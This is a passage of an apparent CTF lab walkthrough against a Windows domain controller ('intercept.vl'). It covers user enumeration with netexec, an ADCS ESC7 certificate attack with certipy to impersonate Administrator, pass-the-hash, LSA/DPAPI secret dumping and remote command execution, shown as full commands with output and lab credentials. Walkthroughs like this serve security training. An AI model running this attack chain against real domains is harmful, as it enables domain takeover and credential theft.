OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/15%OT=88%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=69B685EB%P=x86_64-pc-linux-gnu)
SEQ(SP=101%GCD=1%ISR=107%TI=I%II=I%SS=S%TS=A)
SEQ(SP=109%GCD=1%ISR=10C%TI=I%II=I%SS=S%TS=A)
OPS(O1=M552NW8ST11%O2=M552NW8ST11%O3=M552NW8NNT11%O4=M552NW8ST11%O5=M552NW8ST11%O6=M552ST11)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M552NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Uptime guess: 0.299 days (since Sun Mar 15 04:01:47 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=257 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 65110/tcp): CLEAN (Timeout)
|   Check 2 (port 17082/tcp): CLEAN (Timeout)
|   Check 3 (port 14703/udp): CLEAN (Timeout)
|   Check 4 (port 21361/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| smb2-time: 
|   date: 2026-03-15T10:11:18
|_  start_date: N/A

TRACEROUTE (using port 3269/tcp)
HOP RTT      ADDRESS
1   33.80 ms 10.10.14.1
2   33.81 ms 10.13.38.49

```

# LDAP

Now I will use the Kathryn's account to check the possible accounts on the server unveiling the following users so far:

```bash
└─$ netexec smb DC01.intercept.vl -u 'Kathryn.Spencer' -p 'Chocolate1' --users 
SMB         10.13.38.49     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.13.38.49     445    DC01             [+] intercept.vl\Kathryn.Spencer:Chocolate1 
SMB         10.13.38.49     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                    
SMB         10.13.38.49     445    DC01             Administrator                 2023-06-27 20:08:06 0       Built-in account for administering the computer/domain
SMB         10.13.38.49     445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.13.38.49     445    DC01             krbtgt                        2023-06-27 13:27:18 0       Key Distribution Center Service Account 
SMB         10.13.38.49     445    DC01             Rhys.King                     2023-06-27 13:44:50 0        
SMB         10.13.38.49     445    DC01             Kathryn.Spencer               2023-06-29 11:49:36 0        
SMB         10.13.38.49     445    DC01             Dale.King                     2023-06-27 13:44:51 0        
SMB         10.13.38.49     445    DC01             Billy.Watson                  2023-06-27 13:44:51 0        
SMB         10.13.38.49     445    DC01             Hayley.Jennings               2023-06-27 13:44:51 0        
SMB         10.13.38.49     445    DC01             Vincent.Woods                 2023-06-27 14:09:46 0        
SMB         10.13.38.49     445    DC01             Dorothy.Ford                  2023-06-27 13:44:51 0        
SMB         10.13.38.49     445    DC01             Simon.Bowen                   2023-06-27 13:44:51 0        
SMB         10.13.38.49     445    DC01             Reece.Vaughan                 2023-06-27 13:44:51 0        
SMB         10.13.38.49     445    DC01             Louise.Williams               2023-06-27 13:44:51 0        
SMB         10.13.38.49     445    DC01             [*] Enumerated 13 local users: INTERCEPT

```

Now I can see from the domain policy that there is no account lockout threshold as well, and unfortunately no password reuse:

```bash
└─$ netexec smb DC01.intercept.vl -u 'Kathryn.Spencer' -p 'Chocolate1' --pass-pol
SMB         10.13.38.49     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.13.38.49     445    DC01             [+] intercept.vl\Kathryn.Spencer:Chocolate1 
SMB         10.13.38.49     445    DC01             [+] Dumping password info for domain: INTERCEPT
SMB         10.13.38.49     445    DC01             Minimum password length: 7
SMB         10.13.38.49     445    DC01             Password history length: 24
SMB         10.13.38.49     445    DC01             Maximum password age: 41 days 23 hours 53 minutes 
SMB         10.13.38.49     445    DC01             
SMB         10.13.38.49     445    DC01             Password Complexity Flags: 000001
SMB         10.13.38.49     445    DC01                 Domain Refuse Password Change: 0
SMB         10.13.38.49     445    DC01                 Domain Password Store Cleartext: 0
SMB         10.13.38.49     445    DC01                 Domain Password Lockout Admins: 0
SMB         10.13.38.49     445    DC01                 Domain Password No Clear Change: 0
SMB         10.13.38.49     445    DC01                 Domain Password No Anon Change: 0
SMB         10.13.38.49     445    DC01                 Domain Password Complex: 1
SMB         10.13.38.49     445    DC01             
SMB         10.13.38.49     445    DC01             Minimum password age: 1 day 4 minutes 
SMB         10.13.38.49     445    DC01             Reset Account Lockout Counter: 10 minutes 
SMB         10.13.38.49     445    DC01             Locked Account Duration: 10 minutes 
SMB         10.13.38.49     445    DC01             Account Lockout Threshold: None
SMB         10.13.38.49     445    DC01             Forced Log off Time: Not Set

```

Next, I do not see neither *AsRepRoastable* nor *KerberRoastable* accounts so far, for this reason i will dump the ldap via Bloodhound and take it further from there.

```bash
└─$ netexec ldap DC01.intercept.vl -u 'Kathryn.Spencer' -p 'Chocolate1' --asreproast asreproastable.txt
LDAP        10.13.38.49     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:intercept.vl) (signing:None) (channel binding:Never)
LDAP        10.13.38.49     389    DC01             [+] intercept.vl\Kathryn.Spencer:Chocolate1 
LDAP        10.13.38.49     389    DC01             No entries found!
                                                                                                                                                               
┌──(millycash㉿kali-bello)-[~/Downloads/Intercept]
└─$ netexec ldap DC01.intercept.vl -u 'Kathryn.Spencer' -p 'Chocolate1' --kerberoast kerberoastable.txt
LDAP        10.13.38.49     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:intercept.vl) (signing:None) (channel binding:Never)
LDAP        10.13.38.49     389    DC01             [+] intercept.vl\Kathryn.Spencer:Chocolate1 
LDAP        10.13.38.49     389    DC01             [*] Skipping disabled account: krbtgt
LDAP        10.13.38.49     389    DC01             [*] Total of records returned 0

```



# Back On Track

Now with the new credentials obtained from the WS01 server I can see that this new user might be able to manage the CA?



And checking back it is clear that there is a CA on this domain controller!

```bash
┌──(millycash㉿kali-bello)-[~/Downloads/Intercept]
└─$ netexec smb DC01.intercept.vl -u 'Simon.Bowen' -p 'b0OI_fHO859+Aw' -M enum_ca
SMB         10.13.38.49     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.13.38.49     445    DC01             [+] intercept.vl\Simon.Bowen:b0OI_fHO859+Aw 
ENUM_CA     10.13.38.49     445    DC01             Active Directory Certificate Services Found.
ENUM_CA     10.13.38.49     445    DC01             http://10.13.38.49/certsrv/certfnsh.asp
                                                                                                                                                         
└─# certipy-ad find -dc-ip 10.13.38.49 -u 'Simon.Bowen' -p 'b0OI_fHO859+Aw' -stdout -vulnerable
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'intercept-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'intercept-DC01-CA'
[*] Checking web enrollment for CA 'intercept-DC01-CA' @ 'DC01.intercept.vl'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : intercept-DC01-CA
    DNS Name                            : DC01.intercept.vl
    Certificate Subject                 : CN=intercept-DC01-CA, DC=intercept, DC=vl
    Certificate Serial Number           : 480C0D5536C48D9A4EE9C592CA393324
    Certificate Validity Start          : 2023-06-27 13:24:59+00:00
    Certificate Validity End            : 2125-05-20 01:04:26+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : INTERCEPT.VL\Administrators
      Access Rights
        Enroll                          : INTERCEPT.VL\Authenticated Users
        ManageCa                        : INTERCEPT.VL\Administrators
                                          INTERCEPT.VL\Domain Admins
                                          INTERCEPT.VL\Enterprise Admins
                                          INTERCEPT.VL\ca-managers
        ManageCertificates              : INTERCEPT.VL\Administrators
                                          INTERCEPT.VL\Domain Admins
                                          INTERCEPT.VL\Enterprise Admins
Certificate Templates                   : [!] Could not find any certificate templates


```

So the first step involves managing that *GenericAll* access to add Simon to the specifc group that allows him to manage the CA:

```bash
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Intercept]
└─# net rpc group addmem "ca-managers" "Simon.Bowen" -U "INTERCEPT.VL"/"Simon.Bowen"%'b0OI_fHO859+Aw' -S "DC01.intercept.vl"


└─$ netexec ldap DC01.intercept.vl -u 'Simon.Bowen' -p 'b0OI_fHO859+Aw' --groups "ca-managers"
LDAP        10.13.38.49     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:intercept.vl) (signing:None) (channel binding:Never)
LDAP        10.13.38.49     389    DC01             [+] intercept.vl\Simon.Bowen:b0OI_fHO859+Aw 
LDAP        10.13.38.49     389    DC01             Vincent.Woods
LDAP        10.13.38.49     389    DC01             Simon.Bowen
                                                              
```

This now opens the path to a **ESC7** type of attack agains the ADCS, that will most likely lead to a AD takeover!

```bash
└─# certipy-ad find -dc-ip 10.13.38.49 -u 'Simon.Bowen' -p 'b0OI_fHO859+Aw' -stdout -vulnerable                             
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'intercept-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'intercept-DC01-CA'
[*] Checking web enrollment for CA 'intercept-DC01-CA' @ 'DC01.intercept.vl'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : intercept-DC01-CA
    DNS Name                            : DC01.intercept.vl
    Certificate Subject                 : CN=intercept-DC01-CA, DC=intercept, DC=vl
    Certificate Serial Number           : 480C0D5536C48D9A4EE9C592CA393324
    Certificate Validity Start          : 2023-06-27 13:24:59+00:00
    Certificate Validity End            : 2125-05-20 01:04:26+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : INTERCEPT.VL\Administrators
      Access Rights
        Enroll                          : INTERCEPT.VL\Authenticated Users
        ManageCa                        : INTERCEPT.VL\Administrators
                                          INTERCEPT.VL\Domain Admins
                                          INTERCEPT.VL\Enterprise Admins
                                          INTERCEPT.VL\ca-managers
        ManageCertificates              : INTERCEPT.VL\Administrators
                                          INTERCEPT.VL\Domain Admins
                                          INTERCEPT.VL\Enterprise Admins
    [+] User Enrollable Principals      : INTERCEPT.VL\Authenticated Users
    [+] User ACL Principals             : INTERCEPT.VL\ca-managers
    [!] Vulnerabilities
      ESC7                              : User has dangerous permissions.
Certificate Templates                   : [!] Could not find any certificate templates

```

Now the first step requires to add Simon as approval manager in the CA with this command:

```bash
└─# certipy-ad ca -dc-ip 10.13.38.49 -u 'Simon.Bowen' -p 'b0OI_fHO859+Aw' -ca 'intercept-DC01-CA'  -add-officer 'Simon.Bowen'
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Simon.Bowen' on 'intercept-DC01-CA'

```

Next, the **SubCA**  template can be enrolled, it will fail but this is normal:

```bash
└─# certipy-ad req -dc-ip 10.13.38.49 -u 'Simon.Bowen' -p 'b0OI_fHO859+Aw' -ca 'intercept-DC01-CA' -template 'SubCA' -upn 'Administrator@intercept.vl'
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 17
[-] Got error while requesting certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
Would you like to save the private key? (y/N): y
[*] Saving private key to '17.key'
[*] Wrote private key to '17.key'
[-] Failed to request certificate

```

Now, with the ID obtained before it should be able to abuse the Simon's rights to approve and re-issue that certificate:

```bash
└─# certipy-ad ca -dc-ip 10.13.38.49 -u 'Simon.Bowen' -p 'b0OI_fHO859+Aw' -ca 'intercept-DC01-CA' -issue-request 17          
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate request ID 17

```

And the certificate can be now retrieved:

```bash
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Retrieving certificate with ID 17
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'Administrator@intercept.vl'
[*] Certificate has no object SID
[*] Loaded private key from '17.key'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'

```

But here it failed with the authentication as shown here:

```bash
└─# certipy-ad auth -pfx administrator.pfx -dc-ip 10.13.38.49 -domain intercept.vl -username Administrator             
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@intercept.vl'
[*] Using principal: 'administrator@intercept.vl'
[*] Trying to get TGT...
[-] Object SID mismatch between certificate and user 'administrator'
[-] See the wiki for more information

```

And the reason is explained here, caused by the strong certification mapping flag:



And doin the whole thing again now it works:

```bash
//Request fail
└─# certipy-ad req -dc-ip 10.13.38.49 -u 'Simon.Bowen' -p 'b0OI_fHO859+Aw' -ca 'intercept-DC01-CA' -template 'SubCA' -upn 'Administrator@intercept.vl' -sid 'S-1-5-21-3031021547-1480128195-3014128932-500'
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 18
[-] Got error while requesting certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
Would you like to save the private key? (y/N): y
[*] Saving private key to '18.key'
[*] Wrote private key to '18.key'
[-] Failed to request certificate

//Re-issue
└─# certipy-ad ca -dc-ip 10.13.38.49 -u 'Simon.Bowen' -p 'b0OI_fHO859+Aw' -ca 'intercept-DC01-CA' -issue-request 18          
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate request ID 18


//Retrieve
─# certipy-ad req -dc-ip 10.13.38.49 -u 'Simon.Bowen' -p 'b0OI_fHO859+Aw' -ca 'intercept-DC01-CA' -retrieve 18  
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Retrieving certificate with ID 18
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'Administrator@intercept.vl'
[*] Certificate object SID is 'S-1-5-21-3031021547-1480128195-3014128932-500'
[*] Loaded private key from '18.key'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'

//Abuse
└─# certipy-ad auth -pfx administrator.pfx -dc-ip 10.13.38.49 -domain intercept.vl -username Administrator    
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@intercept.vl'
[*]     SAN URL SID: 'S-1-5-21-3031021547-1480128195-3014128932-500'
[*]     Security Extension SID: 'S-1-5-21-3031021547-1480128195-3014128932-500'
[*] Using principal: 'administrator@intercept.vl'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@intercept.vl': aad3b435b51404eeaad3b435b51404ee:ad95c338a6cc5729ae7390acbe0ca91f
                                                                                                                         


```

# End of the line

With the new obtained password hash it is now possible to dump the LSA and DPAPI secrets from the DC01 server:

```bash
┌──(millycash㉿kali-bello)-[~/Downloads/Intercept]
└─$ netexec smb DC01.intercept.vl -u 'Administrator' -H ad95c338a6cc5729ae7390acbe0ca91f --lsa --dpapi
SMB         10.13.38.49     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.13.38.49     445    DC01             [+] intercept.vl\Administrator:ad95c338a6cc5729ae7390acbe0ca91f (Pwn3d!)
SMB         10.13.38.49     445    DC01             [*] Dumping LSA secrets
SMB         10.13.38.49     445    DC01             INTERCEPT\DC01$:aes256-cts-hmac-sha1-96:6a772e1d3d2146cea9a4d0de7584c4ba6b0bcf3ff4cc531475f8fbc0f170793e
SMB         10.13.38.49     445    DC01             INTERCEPT\DC01$:aes128-cts-hmac-sha1-96:cb64eb548344e7a40bac195e5309ffa3
SMB         10.13.38.49     445    DC01             INTERCEPT\DC01$:des-cbc-md5:510b8fe561299d85
SMB         10.13.38.49     445    DC01             INTERCEPT\DC01$:plain_password_hex:6f364f5f94f60cd53dbd67d30bf3aae71cdd235197b4b9c1248702ab7baac1cee10dac6266cab052bd6c11baa877aea6f57e445d98e2db16ba36f11971a7bd609ee52d332e947167b142c806e3aad284caf9af58e96603e7b8c554624c4568e8aba2a9770334ccf6e6cdb6545b18596b0bc6642ffb66557eb77d16a1d536619b04653aec49fbe79759adbb2abd53413cb1dbd722a99bd84a5f92175d486bc90f28d96d82db5be4a6e04f039f6d71c436fda4169a44db4b96c288c3ec2dec0e800b14887382bf3c294eca4806915c9132141a48ca8ae2a1801e33cd19bb0ca3ccd792ac37a52f5682610bd09dbce5da5d
SMB         10.13.38.49     445    DC01             INTERCEPT\DC01$:aad3b435b51404eeaad3b435b51404ee:8df38a899ff85a5da43b3242445665dd:::
SMB         10.13.38.49     445    DC01             dpapi_machinekey:0x557330ef6425aa37e37ed333d2dfea67f742a322
dpapi_userkey:0x7f903e9e098d90a5f0e5f54e29291c975d24d391
SMB         10.13.38.49     445    DC01             [+] Dumped 6 LSA secrets to /home/millycash/.nxc/logs/lsa/DC01_10.13.38.49_2026-03-15_135651.secrets and /home/millycash/.nxc/logs/lsa/DC01_10.13.38.49_2026-03-15_135651.cached
SMB         10.13.38.49     445    DC01             [+] User is Domain Administrator, exporting domain backupkey...
SMB         10.13.38.49     445    DC01             [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         10.13.38.49     445    DC01             [+] Got 13 decrypted masterkeys. Looting secrets...
                                                                                                              
```

And also obtain the last flag as well!

```bash
└─$ netexec smb DC01.intercept.vl -u 'Administrator' -H ad95c338a6cc5729ae7390acbe0ca91f -X "cat C:\Users\Administrator\Desktop\root.txt"
SMB         10.13.38.49     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.13.38.49     445    DC01             [+] intercept.vl\Administrator:ad95c338a6cc5729ae7390acbe0ca91f (Pwn3d!)
SMB         10.13.38.49     445    DC01             [+] Executed command via wmiexec
SMB         10.13.38.49     445    DC01             #< CLIXML
SMB         10.13.38.49     445    DC01             INTERCEPT{f088c9f3ddf0342e55a37c2860053e16}
SMB         10.13.38.49     445    DC01             <Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><Obj S="progress" RefId="0"><TN RefId="0"><T>System.Management.Automation.PSCustomObject</T><T>System.Object</T></TN><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj></Objs>

```